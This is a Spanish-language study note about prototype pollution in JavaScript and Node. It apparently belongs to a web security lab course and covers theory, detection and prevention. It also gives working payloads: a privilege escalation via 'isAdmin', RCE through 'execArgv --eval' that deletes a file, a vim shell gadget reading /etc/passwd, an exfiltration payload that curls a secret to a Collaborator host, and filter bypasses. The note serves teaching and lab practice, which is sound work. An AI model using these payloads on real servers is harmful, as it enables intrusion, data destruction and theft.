

---
aliases:
  - Prototype pollution
  - prototype-pollution
  - proto pollution
  - __proto__
tags:
  - vuln/prototype-pollution
  - entrypoint
---

# Prototype Pollution — Punto de entrada

> Documento **agnóstico al negocio**: *cómo **detectar y explotar** prototype pollution*. La explotación lab por lab → [[vulnerabilities/020-prototype-pollution/labs/README|labs de Prototype Pollution]].

> [!abstract] La idea en una línea
> Contaminás `Object.prototype` metiendo una propiedad por una **source** (`__proto__` o `constructor.prototype`). Esa propiedad la **hereda todo objeto** de la app. Si en algún lado hay un **gadget** (una propiedad que la app lee sin haberla definido) que llega a un **sink**, la explotás: **DOM XSS** del lado cliente, **escalada de privilegios o RCE** del lado servidor.

## 🧠 Cómo funciona / Cuándo ocurre (teoría justa)

- **Prototipos y herencia.** Casi todo objeto en JS hereda de `Object.prototype`. Cuando leés `obj.x`, el motor busca `x` en el objeto y, si no está, **sube por la cadena de prototipos** hasta `Object.prototype`. A ese prototipo se llega con `obj.__proto__` o con `obj.constructor.prototype` (son lo mismo).
- **Por qué `__proto__` es peligroso.** En una operación de **merge/asignación recursiva** de datos que vos controlás (típico: mergear un JSON del usuario dentro de un objeto de config), la clave `__proto__` **no se trata como una propiedad normal**: la asignación termina escribiendo en **el prototipo**, no en el objeto. Y como el prototipo es compartido, **contaminás a todos los objetos** del proceso.
- **El modelo `source → gadget → sink`.**
    - **Source:** el punto por donde inyectás la propiedad al prototipo.
    - **Gadget:** una propiedad que la app **lee sin haberla definido** (usa el valor heredado del prototipo contaminado).
    - **Sink:** el lugar peligroso al que llega ese valor (`script.src`, `eval`, `child_process`…).
    - **Sin un gadget que llegue a un sink, la contaminación es inofensiva.** Además, una propiedad **no** puede ser gadget si el objeto **ya la define**: la propia gana sobre la heredada.
- **Las sources.**
    - Query string: `?__proto__[foo]=bar` (bracket) o `?__proto__.foo=bar` (punto).
    - JSON del body: `{"__proto__":{"foo":"bar"}}` — `JSON.parse()` trata `__proto__` como clave arbitraria (a diferencia de un object literal), así que **sí** contamina al mergearse.
    - Web messages (`postMessage`) y fragmento `#` de la URL.
- **Los dos contextos** (la clave de toda la categoría):
    - **Client-side** — la source está en la **URL** (query o `#`). El sink es del navegador → **DOM XSS**.
    - **Server-side (Node)** — la source es el **JSON del body**. No ves el código → **detectás a ciegas** y escalás a **admin** o **RCE**.

## 🗺️ Mapa de decisión



## 📚 Ejemplos / PoCs

Cada técnica tiene su example con payload y diagrama. Peso en server-side (el client-side lo resuelve **DOM Invader**).

- **[[vulnerabilities/020-prototype-pollution/examples/001-sources-y-confirmacion|001 · sources y cómo confirmar la contaminación]]** — las 3 vías (query bracket, punto, JSON body) + `Object.prototype.foo`.
- **[[vulnerabilities/020-prototype-pollution/examples/002-client-side-gadget-dom-xss|002 · gadget client-side → DOM XSS]]** — `transport_url` / `value` → `script.src` (DOM Invader).
- **[[vulnerabilities/020-prototype-pollution/examples/003-server-side-deteccion-a-ciegas|003 · detección server-side a ciegas]]** — reflexión, `status`, `json spaces`, `charset` utf-7.
- **[[vulnerabilities/020-prototype-pollution/examples/004-server-side-escalada-isadmin|004 · escalada de privilegios (`isAdmin`)]]** — de user a admin.
- **[[vulnerabilities/020-prototype-pollution/examples/005-bypass-constructor-y-sanitizacion|005 · bypass de defensas]]** — `constructor.prototype` + sanitización no recursiva.
- **[[vulnerabilities/020-prototype-pollution/examples/006-server-side-rce-execargv-fork|006 · RCE vía `child_process.fork()` (`execArgv`)]]** — `--eval`.
- **[[vulnerabilities/020-prototype-pollution/examples/007-server-side-rce-exfil-execsync|007 · RCE / exfiltración vía `child_process.execSync()`]]** — `shell:vim`+`input`, `NODE_OPTIONS`.

## 🎯 Qué se logra (por qué importa)

- **Client-side:** DOM XSS (ejecutar `alert()` / robar la cookie de la víctima).
- **Server-side:** **escalada de privilegios** (pasás a admin con `isAdmin:true`) y, sobre todo, **RCE** y **exfiltración** abusando de `child_process` de Node. Esto último es lo que **ninguna herramienta hace sola**: hay que entender el gadget y armarlo a mano.

## 🧪 Cómo detectarlo (metodología)

### Client-side — DOM Invader
- Activá **DOM Invader** con la opción *prototype pollution*. Detecta **sources** al navegar y con **Scan for gadgets** encuentra el gadget y a veces genera el PoC de DOM XSS.
- Confirmación manual: inyectás `?__proto__[foo]=bar` y en la consola `Object.prototype.foo` devuelve `"bar"`.

### Server-side (a ciegas) — nunca rompas el server de entrada
No ves el código. Primero probá si la prop basura **se refleja** en la respuesta; si no, usá **overrides no destructivos**:

| Técnica | Payload | Qué observás |
| --- | --- | --- |
| **Reflexión** | `"__proto__":{"foo":"bar"}` | aparece `"foo":"bar"` en el JSON de respuesta |
| **Status override** | `"__proto__":{"status":400,"statusCode":400}` | forzás un error y el código cambia a 400 (rango 400-599) |
| **JSON spaces** | `"__proto__":{"json spaces":10}` | la **indentación** del raw de respuesta cambia (no depende de reflexión) |
| **Charset (utf-7)** | `"__proto__":{"content-type":"application/json; charset=utf-7"}` | mandás `"role":"+AGYAbwBv-"` y vuelve decodificado como `foo` |

> [!warning] La contaminación es persistente
> En el server, una vez que contaminás el prototipo **el cambio persiste toda la vida del proceso Node** (no se resetea con un refresh como en el navegador). Contaminar propiedades **reales** puede **tirar abajo el server** (DoS). Por eso se detecta con propiedades inventadas u overrides no destructivos.

## 💥 Explotación server-side con Node (la parte importante)

### Escalada de privilegios — gadget `isAdmin`
Contaminás una propiedad que la app lee para decidir permisos:
```json
"__proto__": { "isAdmin": true }
```
Refrescás → aparece el admin panel. Objetivo típico: **borrar al usuario `carlos`**.

### RCE vía `child_process.fork()` — gadget `execArgv`
`fork()` acepta `execArgv` (args de línea de comando del proceso hijo Node). Si el dev no lo define, lo controlás por prototype pollution e inyectás `--eval`:
```json
"__proto__": {
    "execArgv": [
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
> Confirmá primero **sin destruir nada** con un ping a Collaborator: `--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')`.

### RCE vía `child_process.execSync()` / `spawn()` — gadgets `shell` + `input`
Si `options` queda `undefined`, contaminás `shell` e `input`. `shell` **solo acepta el nombre del ejecutable** (sin args), así que se usan binarios que leen comandos de `stdin` (`vim`/`ex` con `:!`):
```json
"__proto__": {
    "shell": "vim",
    "input": ":! cat /etc/passwd\n"
}
```

Variante **`NODE_OPTIONS`** (inyectás args por defecto a cualquier proceso Node hijo):
```json
"__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

### Exfiltración — a Collaborator
```json
"__proto__": {
    "shell": "vim",
    "input": ":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```
Mirás Collaborator, decodificás base64 → tenés el secreto.

> [!note] El disparo suele ser asíncrono
> En varios labs server-side el sink solo corre cuando un **admin** ejecuta cierta funcionalidad ("run maintenance jobs" que forkea Node). Contaminás y **después** disparás el job.

## 🔓 Bypass de defensas

- **`constructor.prototype`** — cuando filtran la clave `__proto__`. Llega al mismo `Object.prototype`:
```json
"constructor": { "prototype": { "isAdmin": true } }
```
- **Sanitización no recursiva** — si la app borra la subcadena `__proto__` **una sola vez**, la anidás: `__pro__proto__to__[gadget]=payload` → tras el filtro queda `__proto__[gadget]=payload`.

## 🛡️ Prevención

- `Object.freeze(Object.prototype)` — nadie puede agregar/modificar props del prototipo.
- `Object.create(null)` — objetos **sin** prototipo (no hay herencia que abusar).
- Usar `Map` / `Set` en vez de objetos planos (sus getters solo devuelven props propias).
- **Whitelist `<<` blacklist** — validación de esquema de las claves de entrada; sanear `__proto__`/`constructor`/`prototype` es un parche, no la solución.

---

> [!tip] Reglas mentales
> - **`source → gadget → sink`.** Sin gadget que llegue a un sink, contaminar no sirve.
> - **Client-side = URL + DOM XSS.** Probá `?__proto__[foo]=bar`, `?__proto__.foo=bar` y el `#`. **DOM Invader** hace el laburo pesado.
> - **Server-side = JSON del body + a ciegas.** Si no se refleja, usá `status` / `json spaces` / `charset`. Nunca rompas el server de entrada.
> - **Si filtran `__proto__` → `constructor.prototype`.** Y si el filtro es no recursivo → `__pro__proto__to__`.
> - **RCE en Node = `child_process`.** `fork()` → `execArgv` (`--eval`). `execSync()`/`spawn()` → `shell`+`input` (`vim`) o `NODE_OPTIONS`. Confirmá con un `curl` a Collaborator antes de comandos destructivos.

> [!note] Ver también
> - **Labs** (10, client/server, con solución paso a paso) → [[vulnerabilities/020-prototype-pollution/labs/README|labs de Prototype Pollution]].
> - **DOM-based XSS** (mismos sinks del lado cliente, `alert()` como objetivo) → [[vulnerabilities/025-dom-based/dom-based|DOM-based XSS]].
> - **Insecure deserialization** (misma idea de *gadget chain* hasta RCE, otro mecanismo) → [[vulnerabilities/013-insecure_deserialization/insecure-deserialization|insecure deserialization]].
> - **Access control** (escalada a admin → borrar usuario, mismo objetivo final) → [[vulnerabilities/028-access-control/access-control|access control]].
